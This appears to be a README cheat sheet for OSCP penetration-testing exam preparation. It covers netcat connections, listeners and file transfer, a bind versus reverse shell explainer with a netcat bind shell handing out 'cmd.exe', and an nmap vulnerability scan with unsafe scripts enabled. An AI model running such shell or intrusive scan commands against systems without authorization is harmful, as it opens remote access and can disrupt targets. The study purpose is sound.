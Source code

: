 # Go-For-OSCP

# Tips
<b>Enable service on every reboot:</b>

update-rc.d <[service]> enable

<b>Extract link from html page:</b>

cat index.html | grep "href=" | cut -d "/" -f3| grep "debian.org" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

nc -nlvp <[PORT]>

<b>File transfer (client):</b>

nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Bind_Reverse_shell.png" width="500"/>

<b>Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:</b>

(BOB): nc -nlvp 4444 -e cmd.exe

<b>Alice connects to Bob's pc:</b>

(ALICE): nc -nv 10.11.17.9 4444







# Nmap
nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>
